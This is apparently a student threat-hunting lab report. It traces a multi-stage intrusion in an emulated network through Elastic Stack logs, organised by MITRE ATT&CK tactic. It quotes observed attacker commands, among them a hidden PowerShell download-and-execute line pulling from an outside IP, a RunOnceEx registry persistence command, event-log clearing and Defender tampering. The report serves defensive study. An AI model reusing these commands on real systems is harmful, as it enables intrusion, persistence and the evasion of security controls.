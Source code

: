 That's an important detail. I've removed the internal links from the table of contents to ensure it's a clean markdown document for you to copy and paste.

Here is the revised write-up in markdown, with no links.

-----

# Cybersecurity Lab Report: My Threat Hunting Experience

## Table of Contents

  * Introduction
  * Lab Environment and Tools
  * Threat Hunting Findings
      * Initial Access (TA0001)
      * Execution (TA0002)
      * Defense Evasion (TA0005)
      * Persistence (TA0003)
      * Command and Control (TA0011)
  * Conclusion

-----

### Introduction

This report documents my findings from a series of threat hunting activities I performed on an emulated network using the **Elastic Stack (ELK)**. My goal was to apply threat hunting methodologies to identify and investigate malicious activity across several MITRE ATT\&CK tactics, including **Initial Access**, **Execution**, **Defense Evasion**, **Persistence**, and **Command and Control**. The analysis was based on logs collected on July 3, 2023, providing a detailed look at a multi-stage attack.

-----

### Lab Environment and Tools

For this lab, I worked on the following emulated network, with logs collected in an ELK instance.

| Host | Operating System | Purpose |
| :--- | :--- | :--- |
| `JUMPHOST` | Ubuntu 20.04 | A bastion server. |
| `WEB01` | Ubuntu 20.04 | External-facing web application. |
| `WKSTN-1` | Windows 10 | Employee workstation. |
| `WKSTN-2` | Windows 10 | Employee workstation. |
| `DC01` | Windows Server 2019 | Domain controller. |

I used the following indices in the ELK stack for my analysis:

  * `Filebeat`: For all logs from the Linux servers (`JUMPHOST`, `WEB01`).
  * `Winlogbeat`: For all events from the Windows machines (`WKSTN-1`, `WKSTN-2`, `DC01`).
  * `Packetbeat`: To analyze network traffic from all hosts.

-----

### Threat Hunting Findings

The following sections detail my hunting approach and key findings for each targeted MITRE ATT\&CK tactic.

#### Initial Access (TA0001)

My hunt focused on discovering how an adversary first gained a foothold in the network.

  * **SSH Brute-force on `JUMPHOST`**: My analysis of the `filebeat` index showed over 500 failed SSH attempts from IPs `167.71.198.43` and `218.92.0.115`. I later found a successful login by the `dev` user from `167.71.198.43` at **`Jul 3, 2023 @ 07:05:40.407`**.
  * **Remote Code Execution on `WEB01`**: Using `packetbeat`, I saw a high number of `404` status codes for requests to `WEB01` from `167.71.198.43`. This led to a vulnerable `/gila` endpoint, which was exploited. The attacker's `cat` command revealed a sensitive file named **`config.php`**.
  * **Phishing Attempts on Workstations**: I discovered suspicious file downloads on `WKSTN-1` (`microsoft.hta`) and `WKSTN-2` (`update.exe`). An `Update.zip` attachment, containing a malicious `.lnk` file, was opened from Outlook and spawned **`cmd.exe`**.

#### Execution (TA0002)

My hunt for Execution was aimed at figuring out how the adversary ran their malicious code.

  * **Malicious Command-line Usage**: I observed a process named `installer.exe`, located in `C:\Windows\Temp`, executing a malicious PowerShell command:
    ```
    powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://167.71.198.43:8080/a'))"
    ```
  * **LOLBAS Abuse**: Sysmon logs showed me the abuse of Living-Off-the-Land Binaries. I found that `mshta.exe` was used to spawn a PowerShell process that connected to `167.71.198.43`.
  * **Scripting Tool Execution**: A malicious Python script (`dev.py`) on `WKSTN-2` spawned a `cmd.exe` process that executed the command: **`"net.exe" user /add`**.

#### Defense Evasion (TA0005)

This part of my investigation focused on the adversary's attempts to evade security controls.

  * **Disabling Windows Defender**: I found two attempts to disable Windows Defender. The `Set-MpPreference` command was executed by `installer.exe`, and a separate `MpCmdRun.exe -RemoveDefinitions` command was executed by a `cmd.exe` process with a PID of **`1832`**.
  * **Log Deletion Attempts**: I found that event logs were cleared on `WKSTN-1` (Sysmon Event ID 1102). The command line used was **`Clear-EventLog -LogName Security,System,Application`**.
  * **Process Injection**: I detected a suspicious process injection event (Sysmon Event ID 8) on `WKSTN-1` where a malicious `chrome.exe` binary created a new thread in `explorer.exe`. The target PID was **`1404`**.

#### Persistence (TA0003)

To find out how the attacker maintained long-term access, I hunted for persistence mechanisms.

  * **Scheduled Task Creation**: I discovered a malicious scheduled task named "Windows Update" on `WKSTN-1`. The parent process that created this task was **`powershell.exe`**.
  * **Registry Key Modification**: I found a suspicious registry key modification that set the malicious `installer.exe` binary to run at system startup. The command was:
    ```
    "C:\Windows\System32\reg.exe" add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\Windows\Temp\installer.exe" /f
    ```

#### Command and Control (TA0011)

My final hunt focused on how the adversary maintained communication with compromised systems.

  * **C2 over DNS**: I noticed a high volume of unique subdomains for `golge.xyz` from `WKSTN-1`. This was initiated by `nslookup.exe`, which I found was spawned by a PowerShell command that downloaded a script from **`http://www.oneedirve.xyz:8080/a`**.
  * **C2 over Cloud Apps**: I identified traffic to **`discord.gg`**, which I correlated to the `installer.exe` process. The malicious `dev.py` script was downloaded via a `certutil.exe` command, which showed the use of a third-party cloud application for C2.
  * **C2 over Encrypted HTTP**: I detected a high count of `HTTP GET` requests to `cdn.golge.xyz` from `WKSTN-1` and `WKSTN-2`. This traffic was initiated by a **`powershell.exe`** process.

-----

### Conclusion

Through these activities, I successfully mapped out a complete multi-stage attack chain within the emulated network. The attacker gained initial access, executed malicious payloads, and used various LOLBAS to download more tools. To remain undetected, they disabled Windows Defender, cleared event logs, and performed process injection. Persistence was established through scheduled tasks and registry modifications. Finally, they maintained communication via several Command and Control channels. My findings demonstrate the importance of continuous threat hunting and correlating events across different log sources to get a full picture of an intrusion.
